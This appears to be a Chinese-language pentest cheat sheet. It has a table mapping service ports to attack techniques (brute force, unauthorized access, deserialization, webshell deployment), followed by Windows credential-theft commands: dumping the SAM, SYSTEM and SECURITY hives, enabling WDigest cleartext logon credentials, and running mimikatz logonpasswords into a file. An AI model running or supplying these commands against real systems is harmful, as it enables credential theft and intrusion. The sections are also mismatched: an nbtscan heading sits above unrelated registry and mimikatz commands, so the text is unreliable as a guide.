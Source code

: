 <table width="677"><thead><tr><th>端口号</th><th>端口说明</th><th>攻击技巧</th></tr></thead><tbody><tr><td>21/22/69</td><td>ftp/tftp：文件传输协议</td><td>爆破 \ 嗅探 \ 溢出 \ 后门</td></tr><tr><td>22</td><td>ssh：远程连接</td><td>爆破 OpenSSH；28 个退格</td></tr><tr><td>23</td><td>telnet：远程连接</td><td>爆破 \ 嗅探</td></tr><tr><td>25</td><td>smtp：邮件服务</td><td>邮件伪造</td></tr><tr><td>53</td><td>DNS：域名系统</td><td>DNS 区域传输 \ DNS 劫持 \ DNS 缓存投毒 \ DNS 欺骗 \ 利用 DNS 隧道技术刺透防火墙</td></tr><tr><td>67/68</td><td>dhcp</td><td>劫持 \ 欺骗</td></tr><tr><td>110</td><td>pop3</td><td>爆破</td></tr><tr><td>139</td><td>samba</td><td>爆破 \ 未授权访问 \ 远程代码执行</td></tr><tr><td>143</td><td>imap</td><td>爆破</td></tr><tr><td>161</td><td>snmp</td><td>爆破</td></tr><tr><td>389</td><td>ldap</td><td>注入攻击 \ 未授权访问</td></tr><tr><td>512/513/514</td><td>linux r</td><td>直接使用 rlogin</td></tr><tr><td>873</td><td>rsync</td><td>未授权访问</td></tr><tr><td>1080</td><td>socket</td><td>爆破：进行内网渗透</td></tr><tr><td>1352</td><td>lotus</td><td>爆破：弱口令 \ 信息泄漏：源代码</td></tr><tr><td>1433</td><td>mssql</td><td>爆破：使用系统用户登录 \ 注入攻击</td></tr><tr><td>1521</td><td>oracle</td><td>爆破：TNS \ 注入攻击</td></tr><tr><td>2049</td><td>nfs</td><td>配置不当</td></tr><tr><td>2181</td><td>zookeeper</td><td>未授权访问</td></tr><tr><td>3306</td><td>mysql</td><td>爆破 \ 拒绝服务 \ 注入</td></tr><tr><td>3389</td><td>rdp</td><td>爆破 \ Shift 后门</td></tr><tr><td>4848</td><td>glassfish</td><td>爆破：控制台弱口令 \ 认证绕过</td></tr><tr><td>5000</td><td>sybase/DB2</td><td>爆破 \ 注入</td></tr><tr><td>5432</td><td>postgresql</td><td>缓冲区溢出 \ 注入攻击 \ 爆破：弱口令</td></tr><tr><td>5632</td><td>pcanywhere</td><td>拒绝服务 \ 代码执行</td></tr><tr><td>5900</td><td>vnc</td><td>爆破：弱口令 \ 认证绕过</td></tr><tr><td>6379</td><td>redis</td><td>未授权访问 \ 爆破：弱口令</td></tr><tr><td>7001</td><td>weblogic</td><td>Java 反序列化 \ 控制台弱口令 \ 控制台部署 webshell</td></tr><tr><td>80/443/8080</td><td>web</td><td>常见 web 攻击 \ 控制台爆破 \ 对应服务器版本漏洞</td></tr><tr><td>8069</td><td>zabbix</td><td>远程命令执行</td></tr><tr><td>9090</td><td>websphere 控制台</td><td>爆破：控制台弱口令 \ Java 反序列</td></tr><tr><td>9200/9300</td><td>elasticsearch</td><td>远程代码执行</td></tr><tr><td>11211</td><td>memcacache</td><td>未授权访问</td></tr><tr><td>27017</td><td>mongodb</td><td>爆破 \ 未授权访问</td></tr></tbody></table>

引用：https://www.91ri.org/15441.htmlwooyun

**扫描分析** 

1、nbtscan 获取 mac 地址：

```
reg save hklm\\sam sam.hive
reg save hklm\\system system.hive
reg save hklm\\security security.hive
```

```
reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1
```

获取计算机名 \\ 分析 dc \\ 是否开放共享

```
privilege::debug
sekurlsa::logonpasswords
```

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjESpaOL1nDIchAw55KsWlRPkpXjOZS4fAwl0WtrzYL4W6x2TicSlA5Nw/640?wx_fmt=png)

其中信息：SHARING  表示开放来共享， DC  表示可能是域控，或者是辅助域控 U=user  猜测此计算机登陆名 IIS  表示运行来 web80 EXCHANGE  Microsoft Exchange 服务 NOTES   Lotus Notes 服务

2、WinScanX 需要登录账号能够获取目标很详细的内容。其中还有 snmp 获取, windows 密码猜解 (但是容易被杀, nishang 中也实现出一个类似的信息获取 / Gather/Get-Information.ps1)
